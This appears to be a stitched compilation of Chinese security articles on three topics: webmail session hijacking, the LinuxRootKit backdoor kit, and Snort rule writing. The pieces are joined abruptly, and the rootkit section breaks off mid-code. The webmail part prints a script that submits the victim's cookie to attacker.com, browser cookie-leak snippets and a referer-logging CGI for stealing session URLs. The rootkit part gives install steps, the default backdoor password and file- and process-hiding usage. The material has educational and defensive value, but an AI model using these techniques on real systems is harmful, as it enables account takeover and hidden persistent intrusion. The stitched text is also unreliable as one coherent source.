Cookie是Web服务器保存在用户浏览器上的文本信息，可以包含用户名、特殊 ID、访问次数等任何信息，通常此信息用于标识访问同一 Web 服务器上的不同用户，在浏览器每次访问同一 Web 服务器时会发送过去，用于跟踪特定客户端或浏览器与 Web 服务器进行交互的状态。

Cookie 的类型有两种：持久型和临时型。持久型 Cookie 以文本形式存储在硬盘上，由浏览器存取。使用了持久型 Cookie 会话跟踪的 Webmail 系统有 Hotmail、Yahoo 电邮（可选）等。临时型 Cookie 也称为会话 Cookie，存储在内存中，仅为当前浏览器的对话存储，关闭当前浏览器后会立即消失，ASP、PHP4 等开发程序中用到的 Session 对象就会产生临时型 Cookie。使用了临时型 Cookie 会话跟踪的 Webmail 系统有 FM365、亿邮 等。

如果攻击者能够获取用户Webmail的Cookie信息，那么就能很容易地侵入用户的 Webmail。攻击者如何获取用户 Webmail 的 Cookie 信息呢？如果攻击者在用户的电脑上安装了木马，或者能够从网络线路上对用户进行嗅探侦听，那么获取 Cookie 信息自然不成问题，不过这并不是我们讨论问题的意义所在，因为都能够这样了，又何必大费周折去获取 Cookie 信息，直接获取邮箱密码就是了。

如果 Webmail 系统存在跨站脚本执行漏洞，那么攻击者就能欺骗用户从而轻易地获取 Cookie 信息。虽然众多网站存在此漏洞，但存在此漏洞的 Webmail 系统还是很少见。

含有恶性脚本程序的 Html 邮件能使攻击者获取 Webmail 的 Cookie 信息。Html 邮件中的脚本程序先提取当前 Webmail 的 Cookie 信息，然后把它赋值给某个表单元素，再将表单自动提交给攻击者，攻击者从而获得 Cookie 会话信息。下面是一段演示程序：

```
<body>
<form method="post" action="http://attacker.com/getcookie.cgi" name="myform">
<input name="session" type="hidden">
</form>
<script language="JavaScript">
var cookie=(document.cookie);
alert(cookie);// 这一句用于显示当前 cookie 信息，当然，攻击者不会这样做。
document.myform.session.value=cookie;
document.myform.submit();
</script>
```

getcookie.cgi 是放在攻击者 Web 服务器上的一个 CGI 程序，用于获取表单提交过来的 Cookie 信息，并且做记录或者通知攻击者。当然，攻击者会把 Html 邮件、getcookie.cgi 程序设计得更隐蔽，更具欺骗性，让用户难以察觉。

通常，浏览器根据 Web 服务器的域名来分别保存 Cookie 信息，并且只会把 Cookie 信息发送给同一域名的 Web 服务器。不过，浏览器的漏洞给攻击者获取不同域名的 Cookie 信息创造了机会，Internet Explorer、Netscape 和 Mozilla 等被广泛使用的浏览器都存在过此类漏洞。下面是几个 Internet Explorer 浏览器（针对 IE5.0、IE5.5 或 6.0）泄漏 Cookie 信息的例子：

- (1) Html 语言中的 object 元素用于在当前页面内嵌入外部对象，但 Internet Explorer 浏览器对 object 元素属性的处理不当会导致任意域的 cookie 信息被泄漏，演示代码如下：

```
<object id="data" data="empty.html" type="text/html"></object>
<script>
var ref=document.getElementById("data").object;
ref.location.href="http://www.anydomain.com";
setTimeout("alert(ref.cookie)",5000);
</script>
```

- (2) Internet Explorer 浏览器错误处理 "about" 协议使得一个精心构造的 URL 请求可能会显示或修改任意域的 Cookie 信息，例如（以下代码在同一行）：

```
about://www.anydomain.com/<script language=JavaScript>alert(document.cookie);</script>
```

- (3) Internet Explorer 浏览器会误把 URL 中 "%20"（空格符的 URL 编码）字符串之前的主机名当做 cookie 信息所在的域，并且发送出去。假设攻击者有一个域名 "attacker.com"，攻击者把它做成泛域名解析，即把 "*.attacker.com" 指向攻击者 Web 服务器所在的 IP 地址，"attacker.com" 下的任何子域名或主机名都会被解析成这个 IP 地址，当用户提交了类似下面这样的 URL 后，浏览器就会把 "anydomain.com" 域名的 Cookie 信息发送给攻击者：

```
http://anydomain.com%20.attacker.com/getcookie.cgi
```

如果攻击者要获取 Webmail 的临时型 Cookie 信息，就会在 Html 邮件中写入相应的代码，在用户浏览邮件时，该代码自动执行，使得攻击者能够获取当前浏览器里的临时 Cookie 信息；也可以把用于获取 cookie 信息的 URL 发送给用户，诱骗用户打开该 URL，这样攻击者也能获取临时 Cookie 信息。

在攻击者获取 Cookie 信息后，如果 Cookie 信息里含有密码等敏感信息，那么攻击者就能很轻易地侵入用户的邮箱，虽然 Hotmail 等 Webmail 系统曾经发生过此类的情况，但 Cookie 信息泄漏敏感信息的 Webmail 系统还很少见。

攻击者在获取 Cookie 信息之后，还要让此 Cookie 信息由浏览器来存取，从而与 Webmail 系统建立会话，这样才能侵入用户的 Webmail。如果是持久型 Cookie 信息，攻击者所要做的是把这个信息复制到自己的 Cookie 文件中去，由浏览器存取该 Cookie 信息从而与 Webmail 系统建立会话，不过临时 Cookie 信息存储在内存中，并不容易让浏览器存取。

为了让浏览器存取临时 Cookie 信息，攻击者可以编辑内存中的 Cookie 信息，或者修改公开源代码的浏览器，让浏览器能够编辑 Cookie 信息。不过，这样都不是很简便的方法，简便的方法是使用 Achilles 程序（packetstormsecurity.org 网站有下载）。Achilles 是一个 Http 代理服务器，能够载取浏览器和 web 服务器间的 Http 会话信息，并且在代理转发数据之前可以编辑 Http 会话以及临时 Cookie 信息。

Webmail 系统应该避免使用持久型 Cookie 会话跟踪，使攻击者在 Cookie 会话攻击上不能轻易得逞。为了防止 Cookie 会话攻击，用户可以采取如下措施以加强安全：

- (1) 设置浏览器的 Cookie 安全级别，阻止所有 Cookie 或者只接受某几个域的 Cookie。
- (2) 使用 Cookie 管理工具，增强系统 Cookie 安全，如 Cookie Pal、Burnt Cookies 等。
- (3) 及时给浏览器打补丁，防止 Cookie 信息泄漏。

Cookie 会话跟踪除了上面提到的安全缺陷外，还存在如下缺点：
- (1) 并不是每个浏览器都支持 Cookie，有些用户为了防止泄露隐私以及从安全性上考虑，可能会禁用浏览器的 Cookie。
- (2) 由于功能限制或者设置有误，代理服务器不能够代理 Cookie，导致通过代理服务器上网的用户不能登录进入以 Cookie 进行会话跟踪的 Webmail。

## 六、URL 会话攻击

一些Webmail系统在客户端不支持Cookie时拒绝提供 Webmail 服务，如新浪邮件、搜狐邮件等许多 Webmail 系统，而另一些 Webmail 系统则视用户为上帝，使用 URL 会话跟踪技术来维护与客户端交互的状态，如 163.net、263.net、21cn.com 等。

URL会话跟踪是把一些标识会话的字符串加在 URL 里面，对于客户端的每一个 Http 连接请求，服务端都会把URL里的会话标识和它所保存的会话数据关联起来，从而能够区分不同的客户端，以及进行用户会话跟踪。下面是在浏览器的地址栏里看到的一些 Webmail 的 URL，看起来会很长，甚至有些怪：

```
http://bjweb.163.net/cgi/ldapapp?funcid=main&sid=HAPGfUDusCLAQSIm
http://Webmail.21cn.com/extend/gb/std/username/NV0416qxMftyKnOcavGDktOmIEvPsb/SignOn.gen
```

在关闭浏览器后，保存在服务器里的会话关联数据并不会立即失效，一段时间内 Webmail 的 URL 仍然有效，他人只要从浏览器的历史记录里找到该 URL，就可以点击进入用户的 Webmail，并不需要任何密码验证。所以，用户在退出 Webmail 时，不应该直接关闭浏览器，应该点击 Webmail 上的“退出”来退出，这样才会清空会话，使 Webmail 的 URL 失效，那些在网吧等公共场所上网的用户尤其要注意这一点。

如果攻击者知道 Webmail 系统的 URL 会话机制，能猜到 Webmail 的会话标识，那么就能找到 Webmail 的 URL，在浏览器地址栏里输入相同的 URL，就能轻易地进入用户的 Webmail。所以，Webmail 系统应该使用较长的、随机的字符串做为会话标识，使攻击者难以猜测。
不过，即使 Webmail 系统的 URL 会话机制再复杂、会话标识再长，对攻击者而言，要想获得用户 Webmail 的 URL，往往就像探囊取物一般容易。

JavaScript 程序中的 window.location、location.href、document.URL、document.location、document.referrer 等对象属性都可以用来获取 Webmail 的 URL，攻击者只要在 html 邮件中放入一段脚本代码就可以获取 URL，并且能偷偷地发送给攻击者，类似的代码可以参考 “Cookie 会话攻击” 一节里的一段演示程序。

Http 协议 (RFC2616) 里规定 Http 请求头域 “referer” 用于指明链接的出处，即指明来自客户端的这个连接请求是从哪个URI地址提交过来的。例如，用户点击页面上的某个链接地址后，发出的 referer 域的内容就是当前页面的 URI 地址。CGI 编程中的环境变量 “HTTP_REFERER” 用于获取 Http 请求头域 “referer”。下面是一个在 Linux 下用 shell 写的 CGI 程序：

```
#!/bin/sh
#set -f
echo Content-type: text/plain
echo
# 写入日志，geturl.log 文件权限要可写
echo "`date` $REMOTE_ADDR $HTTP_REFERER" >> /var/log/geturl.log
# 即时通知攻击者
wall "`date` 收到 Webmail url，请检查日志"
# 返回给客户端的信息，用于迷惑用户
echo " 你好! "
```

攻击者把这个CGI程序放在自己的Web服务器上，然后把该 CGI 程序的 URL 地址以单独一行放在 TXT 邮件里发给用户，URL 地址会自动变成链接地址，受到欺骗的用户点击后，攻击者就获得了用户 Webmail 的 URL。当然攻击者也可以把 CGI 程序的 URL 地址放在 Html 邮件里做为链接地址让用户来点击，或者就用脚本程序或框架技术使这个 CGI 程序自动运行，或者干脆把这个 CGI 程序的 URL 地址放在 Html 邮件源代码 img 元素的 src 属性值，虽然显现不出图片，但这个 CGI 程序照样会收到 Http 连接请求，从而获得 Webmail 的 URL。

Web服务器的日志记录也能获取referer域的内容，以 Apache 为例，在 httpd.conf 文件中修改或加入如下配置参数：

```
LogFormat "%t %h %{Referer}i -> %U" referer
CustomLog /usr/local/apache/logs/referer_log referer
```

这样，对 Web 服务器的每一个 Http 连接请求的 referer 域的内容都会写到 referer_log 日志文件里去，攻击者只要分析日志文件，就能够知道用户 Webmail 的 URL 了。Webmail 系统如果支持 Html 邮件的话，总不可能会禁止 Html 邮件中使用图像，攻击者在发给用户的 Html 邮件中放入一张 src 地址在自己 Web 服务器上的图片，也就能轻易地获取 Webmail 的 URL。

这样一来，深怀恶意的攻击者花点小钱去做邮件服务商提供的 Webmail 旗帜广告，广告的图片则是放在攻击者的 Web 服务器上，那么攻击者就能每天坐收成千上万用户的 Webmail 了。

浏览器的漏洞和恶意脚本程序导致了 Cookie 信息的泄漏。与 Cookie 信息泄漏不同，URL 会话信息被泄漏，则是完全出在 HTTP 协议上，除非修改 HTTP 协议。虽然 RFC2616 里指出 referer 域是敏感信息（Sensitive Information），建议浏览器提供友好界面让用户能够允许或禁用传输敏感信息域，不过目前尚未有哪一家浏览器提供这样的功能界面。

可见，无论是 Cookie 会话跟踪还是 URL 会话跟踪，都存在着不少的安全问题，所以，Webmail 系统有必要采取措施加强会话安全。

- 1. 灵活使用会话跟踪技术
客户端支持 Cookie 时，使用相对比较安全的临时型 Cookie 会话跟踪机制，否则，使用 URL 会话跟踪，JSP 等开发程序能很容易做到这一点。

- 2. 结合多种会话跟踪技术
同时结合 Cookie、URL 会话跟踪技术进行会话跟踪，大大增加攻击者难度。

- 3. 跟客户端 IP 地址相结合
21cn.com、Qmail 的 SQWebmail 等 Webmail 系统，就是把当前会话与客户端 IP 地址结合起来加强安全的。

- 4. 合理设置会话超时时间
在一定时间内客户端没有连接请求，则认为会话超时（timeout）。太短了，给用户带来不便；太长了，给攻击者带来方便。

## 七、Webmail 其他安全

如果用户在 Webmail 里设置了自动回复，攻击者利用这一点，在另一个邮箱里也设置自动回复，并发一封邮件给用户，那么邮件很快就会塞满用户的邮箱，迫使用户不得不取消自动回复，所以，良好的自动回复策略应该是在一定时间内来自同一邮件地址的第二封邮件不应该被自动回复。

攻击者还会在邮件附件中夹带病毒、木马等恶性程序来攻击用户的电脑，甚至用来窃取 Webmail 密码。所以，对于不明邮件，用户不要奢望那是玫瑰和情书，在对附件进行病毒查杀之前，不要轻易打开它的附件。

为了防止垃圾邮件，Webmail 系统应有良好的反垃圾邮件功能：一是系统级的垃圾邮件过滤，对一些被投诉和列入反垃圾邮件组织黑名单的邮件地址进行过滤，二是用户级的垃圾邮件过滤，使 Webmail 用户可以定制自己的邮件过滤规则，拒绝不受欢迎的邮件，免受垃圾邮件的困扰。

使用一些嗅探监听程序，攻击者甚至不需要很高深的专业知识，就能很轻易地嗅探监听到用户 Webmail 的密码、邮件内容等。有一个叫“密码监听器”的黑客程序，几乎能监听到国内所有免费邮箱的密码。所以，Webmail 系统有必要支持 SSL，对浏览器与服务器之间传输的数据进行加密，防止被嗅探监听。

一些 Webmail 系统支持数字签名和数字加密，在 Webmail 内可以导入基于公钥加密机制（如 CA 认证中心颁发的数字证书）产生的公私密钥对，能有效地保证邮件的保密性、完整性和不可抵赖性。不过，鉴于 Webmail 在其他方面的安全问题，一旦攻击者侵入用户的 Webmail，用户反而得不偿失，甚至会导致私钥的泄露。

Webmail 系统程序上的漏洞也值得关注，如 IMHO Webmail 远程账户劫持漏洞、BasiliX Webmail 远程任意文件泄露漏洞、W3Mail Webmail 执行任意命令漏洞等，甚至 21cn.com 都曾有过重要路径泄露漏洞。

如果用户在正确使用 Webmail 后仍然存在安全问题，那么剩下的就是去选择一个好的邮件服务商，或者通过邮件客户端软件来收发邮件。不过，使用 Outlook 等邮件客户端软件又会引发其它的安全问题，例如爱虫、求职信等病毒就是利用 Outlook 的漏洞来扩散传播和危害用户的。

你听说过“rootkit”这个名词吗？如果听说过，你真正了解其含义、功用、分类、使用和原理吗？本文让你与 rootkit 全接触。

# 后门工具包——rootkit（上）

在网络安全领域里有一种特殊的程序叫做 rootkit，但是如果你把 rootkit 按照字面意思理解为管理员工具包那可就大错特错了，其实它是供黑客隐藏自身踪迹以及方便管理肉鸡的工具集合。一般来说，不同的操作系统上都有不同的 rootkit 软件，本文重点介绍 Linux 系统中的 rootkit 原理、分类、典型软件包以及如何防范 rootkit，其他操作系统的 rootkit 将在以后陆续介绍。

## 一、什么是 rootkit

一般黑客在攻破一台主机并获取最高权限之后，都会在主机上留下后门以便将来可以继续访问该主机或者控制该主机攻击其他计算机。因此，怎样留下稳定而且隐秘性好的后门就成了攻击者需要研究的一个重要问题。如果只是留下一个简单的 bindshell 后门的话，管理员很容易通过后门程序的进程信息以及所开放的端口信息发现该后门，这对于攻击者来说是非常危险的，因为这不仅意味着攻击者的踪迹已经暴露，所获得的权限可能丢失，而且管理员有可能伪造一个假后门来等着逮你。当你悠然自得访问自己以前留的后门时，可能已经落入了“敌人”的圈套了。

所以对于攻击者来说需要更为隐秘的后门，rootkit 就是帮助攻击者用来隐藏自己的踪迹和保留 root 访问权限的黑客工具包。rootkit 不仅仅是后门程序，它一般分为后门程序以及隐藏程序两个部分，其中后门程序用来留下后门供黑客再次访问的权限；隐藏程序用来隐藏后门程序的信息，例如进程和端口等。有的比较全面的 rootkit 包还包括清除系统日志以及 Sniffer 等持续性攻击的工具。

## 二、rootkit 的分类

在现有的 rootkit 工具中，按照程序本身的工作原理，一般可以分为两类：特洛伊 rootkit 和内核级 rootkit。

特洛伊 rootkit 是指攻击者用特殊的程序替换掉系统原有的某些程序，以达到隐藏自身、安装后门以及继续收集信息等功能的 rootkit。Linux 下有一个专门的特洛伊工具包叫做 LinuxRootKit，本文将在后面详细介绍该工具包。

内核级 rootkit 则是指利用 LKM 的某些特性修改系统内核以达到隐藏的目的。所谓 LKM，就是 Loadable Kernel Modules 的简称，即可加载内核模块，这些模块本来是 Linux 系统用于扩展自身功能的。使用 LKM 的优点有：它们可以被动态地加载，而且不需要重新编译内核。Linux 下常见的内核级 rootkit 有 Knark、Adore 等，本文后面将会详细介绍 LKM 的基础知识以及 Knark 工具包。

### 三、LinuxRootKit 工具包简介

LinuxRootKit 是由数十个小程序组成的木马工具包，目前已经发展到了 4.0 版本。攻击者使用 LinuxRootKit 中的相关程序替代系统原来的 ps、ls、netstat 和 df 等程序，使系统管理员无法通过这些工具发现攻击者的踪迹。例如替换了 ls 后，就可以隐藏指定的文件，使得管理员在使用 ls 命令时无法看到这些文件，从而达到隐藏自己的目的。

LinuxRootKit 主要包含下列文件：

- bindshell：开一个端口的 shell 后门；
- chfn：运行之后获得 root 权限；
- chsh：运行之后获得 root 权限；
- crontab：crontab 程序的木马版本；
- du：du 程序的木马版本，用于隐藏文件；
- find：find 程序的木马版本，用于隐藏文件；
- fix：修改文件工具；
- ifconfig：木马，用于隐藏 Sniffer；
- inetd：木马，用于获得远程权限；
- killall：木马，避免杀掉隐藏的进程；
- linsniffer：一个包过滤 Sniffer；
- login：木马，用于获得远程权限；
- ls：木马版本，用于隐藏文件；
- netstat：木马版本，用于隐藏连接；
- passwd：木马，用来获得 root 权限；
- pidof：木马，用来隐藏进程；
- ps：木马，用来隐藏进程；
- rshd：rsh 木马，用于获得远程权限；
- sniffchk：用于检查 Sniffer 是否运行的工具；
- syslogd：木马，用于隐藏日志记录；
- tcpd：tcpwrapper 木马，用来突破 IP 限制；
- top：木马，用来隐藏进程；
- wted：用于清除 wtmp/utmp 日志；
- z2：用于清除 utmp/wtmp/lastlog 日志。

### 1. 功能简介

以上文件中有一些是为了隐藏攻击者信息的，如：

ls、find、du 这些程序会阻止显示攻击者的文件以及计算攻击者文件占用的空间。在编译之前，攻击者可以通过 ROOTKIT_FILES_FILE 设置自己的文件所处的位置，默认是 /dev/ptyr。注意：如果在编译时使用了 SHOWFLAG 选项，就可以使用 ls -/ 命令列出所有的文件。这几个程序还能够自动隐藏所有名字为 ptyr、hack.dir 和 W4r3z 的文件。

ps、top、pidof 这几个程序用来隐藏所有和攻击者相关的进程。

netstat 用来隐藏出/入指定 IP 地址或者端口的网络数据流量。

killall 不会杀死被攻击者隐藏的进程。

ifconfig 如果攻击者启动了嗅探器，这个程序就阻止 PROMISC 标记的显示，使系统管理员难以发现网络接口已经处于混杂模式下。

crontab 隐藏有关攻击者的 crontab 条目。

tcpd 阻止向日志中记录某些连接。

syslogd 过滤掉日志中的某些连接信息。

以上文件中还有一些木马程序为本地用户提供后门，包括：

chfn 用来提升本地普通用户权限的程序。运行 chfn，在它提示输入新的用户名时，如果用户输入 rootkit 密码，他的权限就被提升为 root。默认的 rootkit 密码是 satori。

chsh 也是一个提升本地用户权限的程序。运行 chsh，在它提示输入新的 shell 时，如果用户输入 rootkit 密码，他的权限就被提升为 root。

passwd 和上面两个程序的作用相同。在提示你输入新密码时，如果输入 rootkit 密码，权限就可以变成 root。

login 允许使用任何账户通过 rootkit 密码登录。如果使用 root 账户登录被拒绝，可以尝试一下 rewt。当使用后门时，这个程序还能够禁止记录命令的历史记录。

另外一些是木马网络监控程序，这些程序为远程用户提供后门，可以向远程用户提供 inetd、rsh、ssh 等服务，具体因版本而异。随着版本的升级，LinuxRootKit 4 的功能也越来越强大，特征也越来越丰富。一般包括如下网络服务程序：

inetd 是一个特洛伊 inetd 程序，为攻击者提供远程访问服务。

rshd 为攻击者提供远程 shell 服务。攻击者使用 rsh -l rootkitpassword host command 命令就可以启动一个远程 root shell。

sshd 为攻击者提供 ssh 服务的后门程序。

所有不属于以上类型的程序都是工具程序，它们实现诸如日志清理、报文嗅探以及远程 shell 的端口绑定等功能，包括：

fix 是一个用来伪造文件属性的程序。

linsniffer 是一个报文嗅探器程序。

sniffchk 是一个简单的 bash shell 脚本，检查系统中是否正有一个嗅探器在运行。

wted 用来编辑 wtmp/utmp 日志的编辑程序。你可以使用这个工具编辑所有 wtmp 或者 utmp 类型的文件。

z2 也是 utmp/wtmp/lastlog 日志清理工具。可以删除 utmp/wtmp/lastlog 日志文件中有关某个用户名的所有条目。不过，如果用于 Linux 系统需要手工修改其源代码，设置日志文件的位置。

Bindshell 用来在某个端口上绑定 shell 服务，默认端口是 12497，为远程攻击者提供 shell 服务。

### 2. 具体使用方法

LinuxRootKit 的安装方法非常简单，只需要在 LinuxRootKit 目录下执行命令 make all install 即可。如果是安装了 shadow 的系统，则应该运行 make shadow install 来进行安装，但在安装之前，你应该首先具有 root 权限。

其中 ls、du、find 等几个程序用于隐藏文件，你首先必须建立一个 /dev/ptyr 文件，然后把要隐藏的文件名放入其中。例如，如果要隐藏一个名为 hacktool 的文件，就使用 echo hacktool>>/dev/ptyr 命令把这个文件名加入 /dev/ptyr 文件当中。这样，无论谁使用 ls 等命令都无法看到 hacktool 文件了。

而 ps、top、pidof 等几个程序用于隐藏进程，同隐藏文件的方法相似。如果要隐藏进程首先需要建立一个 /dev/ptyp 文件，LinuxRootKit 提供了

- 0：隐藏所有 uid 为 0 的进程
- p0：隐藏所有 tty0 终端上的进程
- Sniffer：隐藏所有名为 Sniffer 的进程
- hack：隐藏所有名字中包含“hack”字符串的进程

假设我们要隐藏所有包含“hack”的进程，就用 echo 3 hack>>/dev/ptyp 命令写入 /dev/ptyp 文件，这样当管理员使用 ps 等命令查看进程时，就无法看到 hackscan、hacklog 等正在运行的程序了。

- 500：隐藏所有 uid 为 500 的连接
- 128.31：隐藏所有来自 128.31.x.x 网络的连接
- 128.31.9.2：隐藏所有连向 128.31.9.2 的连接
- 8000：隐藏所有来自 8000 端口的连接
- 6667：隐藏所有连向 6667 端口的连接
- .term/socket：隐藏所有包含 .term/socket 路径的 UNIX 套接字

syslogd 用于隐藏系统日志记录，当向 /dev/ptys 文件当中写入字符串的时候，就可以避免在系统日志中对包含此字符串的事件进行记录了。

LinuxRootKit 中其他程序的用法比较简单，这里不再一一介绍了。需要注意的是，LinuxRootKit 的默认配置都可以在 rootkit.h 中进行，其中最关键的一项是密码，当使用其中的大部分后门时都可以使用这个密码来快速获得权限。如果不进行设置，rootkit.h 就会使用默认的密码 satori。想要设置自己的密码你应该修改下面一项：

```c
#define ROOTKIT_PASSWORD "satori"
```

而如果想要修改隐藏进程、文件、地址、端口等信息的文件，则应该分别修改下面几项：

```c
/* Processes to hide */
#define ROOTKIT_PROCESS_FILE "/dev/ptyp"
/* Addresses to hide */
#define ROOTKIT_ADDRESS_FILE "/dev/ptyq"
/* Files and directories to hide */
#define ROOTKIT_FILES_FILE "/dev/ptyr"
/* Log entries to hide */
#define ROOTKIT_LOG_FILE "/dev/ptys"
其中还有一项：
#undef SHOWFLAG
```

这个选项用特殊的标记来显示出隐藏的文件，在命令后面加一个“/”就可以显示出本来隐藏的文件，如果你需要该选项则把它改为：

```c
#define SHOWFLAG
```

最后一个选项

```c
#define TAB_NAME "/dev/hda02"
```

用来定义替换的 crontab 文件，你同样可以按照自己的需求来进行修改。

不要忘了，修改完这些选项之后，要重新使用 make all install 来进行编译安装，这样才能够使你的设置生效。

### 3. 编程原理简介

特洛伊 rootkit 的原理是很简单的，就是在系统原有的程序源代码中进行修改，把要隐藏或者有特殊需求的地方进行修改，下面以 ls 为例进行简单的介绍。

ls 的源代码在 rootkit 目录下的 fileutils-3.13/src/ls.c 文件，其中进行修改的主要部分有以下几处：

```c
/*+ HACK Read in list of files to block +*/
h_tmp=(struct h_st *)malloc(sizeof(struct h_st));
hack_list=h_tmp;

if (fp_hack=fopen(FILENAME, "r")) {
while (fgets(tmp_str, 126, fp_hack)) {
```

# Snort 用户手册（下）

承接上一期笔者介绍的 Snort 概述，这是 Snort 用户手册的深入部分，主要针对 Snort 规则进行详细的描述。

## ——编写 Snort 规则

文/sword

### 18. Session

关键字 session 是从 1.3.1.1 版本开始使用的，用来提取 TCP sessions 的用户数据并查看哪些用户在使用 Telnet、Rlogin、Ftp 或者 Web sessions。关键字 session 有两个可选项，Printable 或 All。Printable 只能打印出正常情况下能看到的用户数据，All 可以用十六进制数字来代替不可打印的字符。这个功能会让 Snort 的速度减慢很多，所以最好不要在重负荷的情况下使用，而且最好使用 tcpdump 格式的日志文件。例 17 是一个很好的 telnet 会话记录规则：

```text
格式
session: [printable|all];
log tcp any any <> 192.168.1.0/24 23 (session: printable;)
例17: Logging Printable Telnet Session Data
```

### 19. Icmp_id

Icmp_id 选项检查 ICMP ECHO 数据包中 ICMP ID 数值是否是指定值。许多秘密通道（covert channel）程序使用静态 ICMP 字段通讯，所以该选项在检查这种流量时非常有用。这个特别的插件用于增强由 Max Vision 编写的 stacheldraht 探测规则，但是在探测一些潜在攻击时确实有效。

```text
格式
icmp_id: <number>;
```

### 20. Icmp_seq

Icmp_seq 选项检查 ICMP ECHO 包的 ICMP 序列字段的特殊值。它能用来检测一些隐藏通道的程序连接。它和 Icmp_id 一样，能检测到许多潜在的攻击。

```text
格式
icmp_seq: <number>;
```

### 21. Rpc

这个选项搜索 RPC 请求报文，自动把应用程序和程序版本显示出来，指定 3 个匹配变量。选项调用格式是“应用，程序，版本”。使用“*”作为通配符。如果 3 个值都匹配，表示这个规则应用成功。

```text
格式：
rpc: <number, [number|*], [number|*]>;
alert tcp any any -> 192.168.1.0/24 111 (rpc: 100000,*,3;
msg:"RPC getport (TCP)");
alert udp any any -> 192.168.1.0/24 111 (rpc: 100000,*,3;
msg:"RPC getport (UDP)");
alert udp any any -> 192.168.1.0/24 111 (rpc: 100083,*,*;
msg:"RPC ttdb");
alert udp any any -> 192.168.1.0/24 111 (rpc: 100232,10,*;
msg:"RPC sadmin");
例18: Various RPC Call Alerts
```

### 22. Resp

关键字 resp 灵活地弥补了回应传输中 Snort 规则匹配。FlexResp 编码允许 Snort 主动地关闭攻击连接。下面是参数模块：

- rst_snd - 向发送方发送 TCP-RST 数据包
- rst_rcv - 向接收方发送 TCP-RST 数据包
- rst_all - 向收发双方发送 TCP-RST 数据包
- icmp_net - 向发送方发送 ICMP_NET_UNREACH
- icmp_host - 向发送方发送 ICMP_HOST_UNREACH
- icmp_port - 向发送方发送 ICMP_PORT_UNREACH
- icmp_all - 向发送方发送上述所有的 ICMP 数据包

可以把这些选项结合起来多重响应目标主机。多个参数用分号分割开。

格式

```text
resp: <resp_modifier[, resp_modifier...]>;
```

警告

需要非常小心地使用 Flexible 回应。它很容易让 Snort 进入死循环，就像下面定义的这个例子：

```text
alert tcp any any -> 192.168.1.1/24 any (msg: "aiee!";
resp: rst_all;)
它容易干扰正常的网络通信。
alert tcp any any -> 192.168.1.0/24 1524 (flags: S;
resp: rst_all; msg: "Root shell backdoor attempt";)
alert udp any any -> 192.168.1.0/24 31 (resp:
icmp_port,icmp_host;
msg: "Hacker's Paradise access attempt";)
例19: FlexResp Usage Examples
```

### 23. Content-list

关键字 content-list 允许多 content strings 代替一个 content 选项。例 20 这种模式必须搜索每一个 content-list 文件，但它同 content strings 不一样的地方是指定一个参数作为内容标准。

使用 ! 操作，警报将在没有匹配规则的情况下被触发。

```text
# adult sites
"porn"
"adults"
"hard core"
"www.pornsite.com"
# ...
例20: Content-list "adults" file example
格式
content-list: [!] "<file_name>";
```

### 24. React

这个功能是在网络传输中发出警告。这个关键字是基于 flexible response（Flex Resp）Snort 匹配规则的。它的基本作用是阻止用户访问一些站点：New York Times、slashdot 或者其他暴力和色情站点。Flex Resp 代码允许 Snort 主动地关闭掉违反规则的连接和发送一个可以看见的消息给浏览器。发送的消息可以包含你自己的注释。下面是该选项的参数。

- block - 关闭连接，发送消息给浏览器
- warn - 发送警告消息给浏览器

也可以结合下面的参数：

- msg - msg 选项包含的文本放入阻断消息中
- proxy: <port_nr> - 使用 proxy port 发送消息

添加多个参数，用逗号分开。关键字 react 放到选项列表的最后。

格式

```text
react: <react_basic_modifier[, react_additional_modifier...]>;
alert tcp any any <> 192.168.1.0/24 80 (content-list: "adults";
msg: "Not for children!"; react: block, msg;)
alert tcp any any <> 192.168.1.0/24 any (content-list: "adults";
msg: "Adults list access attempt"; react: block;)
例21: React Usage Examples
```

### 25. Reference

关键字 Reference 允许规则包含访问外部的攻击确认系统。这个插件现在支持几种指定的系统以及特殊的 URL。使用这个插件输出的警报信息中添加了有关这个警报的链接。另外，一定要到 http://www.snort.org/snort-db/ 参看有关信息。

表 1 支持的系统

| System | URL Prefix |
| --- | --- |
| Bugtraq | http://www.securityfocus.com/bid/ |
| CVE | http://cve.mitre.org/cgi-bin/cvename.cgi?name= |
| Arachnids | (currently down) http://www.whitehats.com/info/IDS |
| McAfee | http://vil.nai.com/vil/dispVirus.asp?virus_k= |
| url | http:// |

格式

```text
reference:<id system>,<id>; [reference: <id system>,
```

```
<id>;]
alert TCP any any -> any 7070 (msg: "IDS411/dos-realaudio"; flags:
AP; content: "|fff4 fffd 06|"; reference: arachNIDS,
IDS411;)
alert TCP any any -> any 21 (msg: "IDS287/ftp-wuftp260-venglin-linux";
flags: AP; content: "|31c031db 31c9b046 cd80 31c031db|";
reference: arachNIDS,IDS287; reference: bugtraq,
1387;
reference: cve,CAN-2000-1574; )
```

## 例 22: Reference Usage Examples

#### 格式

```
classtype: <class name>;
```

规则的分类被定义在 `classification.config` 文件中。Config 文件使用下面的语法：
```
config classification: <class name>,<class description>,<default priority>
```
Snort 的分类标准被包含在表 2~表 4 中。分类标准有 3 种默认优先级。优先级 1 是最严重的，默认规则设置为 4，最不严重。

### 26. Sid

关键字 `sid` 用来关联特殊的 Snort 规则。该关键字允许输出关联的规则。看例 23。下面是 `sid` 的范围：

- `<100` Reserved for future use
- `100-1,000,000` Rules included with the Snort distribution
- `>1,000,000` Used for local rules

#### 格式

```
sid: <snort rules id>;
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS 80
(msg:"WEB-IIS File permission canonicalization";
uricontent:"/scripts/..%c1%9c../";
flags: A+; nocase; sid:983; rev:1;)
```
例 23: Sid Usage Example

### 27. Rev

关键字 `rev` 用来修订关联规则。修订以前的 Snort IDS 规则，允许签名和描述，替换和更新信息。使用例 23。

#### 格式

```
rev: <revision integer>
```

### 28. Classtype

关键字 `classtype` 把警报按攻击类型分类。使用的时候优先考虑用户指定规则类型的优先等级。分类规则将按默认优先等级设置。

## 表 2 高优先级分类 - 优先 1

| 分类 | 描述 |
|---|---|
| attempted-admin | 尝试获取管理员权限 |
| attempted-user | 尝试获取用户权限 |
| shellcode-detect | 发现执行代码 |
| successful-admin | 成功获取管理员权限 |
| successful-user | 成功获取用户权限 |
| Trojan-activity | 发现网络木马 |
| unsuccessful-user | 获取用户权限不成功 |
| web-application-attack | 攻击 Web 应用程序 |

## 表 3 中等优先级分类 - 优先 2

| 分类 | 描述 |
|---|---|
| attempted-dos | 拒绝服务攻击 |
| attempted-recon | 尝试泄露信息 |
| bad-unknown | 潜在的坏传输 |
| denial-of-service | 发现拒绝服务攻击 |
| misc-attack | 杂项攻击 |
